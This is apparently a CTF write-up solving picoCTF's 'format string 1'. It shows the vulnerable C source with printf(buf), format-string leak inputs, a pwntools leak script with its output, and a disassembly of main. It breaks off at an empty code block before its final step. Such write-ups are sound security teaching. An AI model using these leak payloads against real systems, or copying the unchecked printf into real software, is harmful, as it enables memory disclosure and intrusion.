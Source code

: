 # picoCTF format string 1

### Source code

```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```

We read 64 bytes from `secret-menu-item-1.txt` and store it in secret1, 64 bytes from `secret-menu-item-2.txt` and store it in secret2, 64 bytes from `flag.txt` and store it in flag, and finally 1024 bytes from user using scanf and store it in buf.

From this we can see our format string vulnerability.

```c
printf(buf);
```

<br>

#### Checking for memory protections

```bash
$ checksec --file=format-string-1

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable    FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   41 Symbols        No    0               2              format-string-1
```

<br>

#### Checking for memory leaks

```bash
$ ./format-string-1

Give me your order and I'll read it back to you:
%p %p %p %p %p
Here's your order: 0x7ffe7f072710
Bye!
```

There does seem to be a format string vulnerability, but it only leaks a single address? wierd. Lets try that again with something other than spaces for delimiters.

```bash
$ ./format-string-1

Give me your order and I'll read it back to you:
%p,%p,%p,%p
Here's your order: 0x7fffffffd7f0,(nil),(nil),0xa
Bye!
```
It works!! so it seems like because we're using scanf for input it is splitting our input based on spaces. Now we can just leak addresses as such

```python
def get_leaked_addr(n: int=100):
    p = process("./format-string-1")
    p.sendline(b"%p|"*n)
    leaked_addr = p.recvall().decode('latin-1').split(":")[-1].strip()
    leaked_addr = leaked_addr.split("|")[: -1]
    return leaked_addr

print(get_leaked_addr(5))
```
```bash
$ ./exploit.py          

Enter the no. of addresses to leak (default = 100): 5
['0x7fffffffd7f0', '(nil)', '(nil)', '0xa', '0x400']
```

Now we can calculate the offset at which our buffer is placed.
```bash
$ python3 -c 'print("AAAAAAAA"+"%p,"*50)' | ./format-string-1

Give me your order and I'll read it back to you:
Here's your order: AAAAAAAA0x7fffffffd7f0,(nil),(nil),0xa,0x400,0x67756720656b6166,0xa6167616775,0x7ffff7fc06c0,0x3,0x7fff00000000,0x7ffff7dc7938,0x7fffffffda20,0x7ffff7ffe680,0x6664736166647361,0x7fffffff000a,0xffffda74,(nil),(nil),0x7fffffffdb90,0x7ffff7ffe680,0x7ffff7ff285d,0x7567206c61796972,0xa616761677567,0x3de00ec7,0x7ffff7fd15dc,0x1,0x7fffffffdb90,(nil),(nil),0x4141414141414141,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x2c70252c7025,0x7fffffffdb58,
Bye!
```

It looks like our buffer is placed at the 30th position in the leaks, we can confirm this by
```bash
$ ./format-string-1

Give me your order and I'll read it back to you:
AAAAAAAA%30$p
Here's your order: AAAAAAAA0x4141414141414141
Bye!
```

#### Determining variables

Now we just have to figure out what to write and where to write it. Taking a look at the disassembly of the main function. we can see the addresses of some of our variables

```asm
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004011f6 <+0>:     endbr64
   0x00000000004011fa <+4>:     push   rbp
   0x00000000004011fb <+5>:     mov    rbp,rsp
   0x00000000004011fe <+8>:     sub    rsp,0x4d0
   0x0000000000401205 <+15>:    mov    esi,0x402008
   0x000000000040120a <+20>:    mov    edi,0x40200a
   0x000000000040120f <+25>:    call   0x4010f0 <fopen@plt>
   0x0000000000401214 <+30>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401218 <+34>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x000000000040121d <+39>:    jne    0x401233 <main+61>
   0x000000000040121f <+41>:    mov    edi,0x402028
   0x0000000000401224 <+46>:    call   0x4010b0 <puts@plt>
   0x0000000000401229 <+51>:    mov    eax,0x1
   0x000000000040122e <+56>:    jmp    0x401363 <main+365>
   0x0000000000401233 <+61>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401237 <+65>:    lea    rax,[rbp-0x450]
   0x000000000040123e <+72>:    mov    esi,0x40
   0x0000000000401243 <+77>:    mov    rdi,rax
   0x0000000000401246 <+80>:    call   0x4010d0 <fgets@plt>
   0x000000000040124b <+85>:    mov    esi,0x402008
   0x0000000000401250 <+90>:    mov    edi,0x40205b
   0x0000000000401255 <+95>:    call   0x4010f0 <fopen@plt>
   0x000000000040125a <+100>:   mov    QWORD PTR [rbp-0x8],rax
   0x000000000040125e <+104>:   cmp    QWORD PTR [rbp-0x8],0x0
   0x0000000000401263 <+109>:   jne    0x401279 <main+131>
   0x0000000000401265 <+111>:   mov    edi,0x402068
   0x000000000040126a <+116>:   call   0x4010b0 <puts@plt>
   0x000000000040126f <+121>:   mov    eax,0x1
   0x0000000000401274 <+126>:   jmp    0x401363 <main+365>
   0x0000000000401279 <+131>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x000000000040127d <+135>:   lea    rax,[rbp-0x490]
   0x0000000000401284 <+142>:   mov    esi,0x40
   0x0000000000401289 <+147>:   mov    rdi,rax
   0x000000000040128c <+150>:   call   0x4010d0 <fgets@plt>
   0x0000000000401291 <+155>:   mov    esi,0x402008
   0x0000000000401296 <+160>:   mov    edi,0x40208d
   0x000000000040129b <+165>:   call   0x4010f0 <fopen@plt>
   0x00000000004012a0 <+170>:   mov    QWORD PTR [rbp-0x8],rax
   0x00000000004012a4 <+174>:   cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004012a9 <+179>:   jne    0x4012bf <main+201>
   0x00000000004012ab <+181>:   mov    edi,0x4020a8
   0x00000000004012b0 <+186>:   call   0x4010b0 <puts@plt>
   0x00000000004012b5 <+191>:   mov    eax,0x1
   0x00000000004012ba <+196>:   jmp    0x401363 <main+365>
   0x00000000004012bf <+201>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004012c3 <+205>:   lea    rax,[rbp-0x4d0]
   0x00000000004012ca <+212>:   mov    esi,0x40
   0x00000000004012cf <+217>:   mov    rdi,rax
   0x00000000004012d2 <+220>:   call   0x4010d0 <fgets@plt>
   0x00000000004012d7 <+225>:   mov    edi,0x4020e0
   0x00000000004012dc <+230>:   call   0x4010b0 <puts@plt>
   0x00000000004012e1 <+235>:   mov    rax,QWORD PTR [rip+0x2d78]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x00000000004012e8 <+242>:   mov    rdi,rax
   0x00000000004012eb <+245>:   call   0x4010e0 <fflush@plt>
   0x00000000004012f0 <+250>:   lea    rax,[rbp-0x410]
   0x00000000004012f7 <+257>:   mov    rsi,rax
   0x00000000004012fa <+260>:   mov    edi,0x402111
   0x00000000004012ff <+265>:   mov    eax,0x0
   0x0000000000401304 <+270>:   call   0x401100 <__isoc99_scanf@plt>
   0x0000000000401309 <+275>:   mov    edi,0x402118
   0x000000000040130e <+280>:   mov    eax,0x0
   0x0000000000401313 <+285>:   call   0x4010c0 <printf@plt>
   0x0000000000401318 <+290>:   lea    rax,[rbp-0x410]
   0x000000000040131f <+297>:   mov    rdi,rax
   0x0000000000401322 <+300>:   mov    eax,0x0
   0x0000000000401327 <+305>:   call   0x4010c0 <printf@plt>
   0x000000000040132c <+310>:   mov    edi,0xa
   0x0000000000401331 <+315>:   call   0x4010a0 <putchar@plt>
   0x0000000000401336 <+320>:   mov    rax,QWORD PTR [rip+0x2d23]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x000000000040133d <+327>:   mov    rdi,rax
   0x0000000000401340 <+330>:   call   0x4010e0 <fflush@plt>
   0x0000000000401345 <+335>:   mov    edi,0x40212c
   0x000000000040134a <+340>:   call   0x4010b0 <puts@plt>
   0x000000000040134f <+345>:   mov    rax,QWORD PTR [rip+0x2d0a]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x0000000000401356 <+352>:   mov    rdi,rax
   0x0000000000401359 <+355>:   call   0x4010e0 <fflush@plt>
   0x000000000040135e <+360>:   mov    eax,0x0
   0x0000000000401363 <+365>:   leave
   0x0000000000401364 <+366>:   ret

```

From the above code we can see that `[rbp-0x8] is fd and [rbp-0x490] is flag`, on further browsing through the code we can see that `the string "Bye!" is stored at the address 0x40212c`. Now that we have the address of `flag` and `the string "Bye!"`, we know what to write and where to write. Trying that 

```bash
```
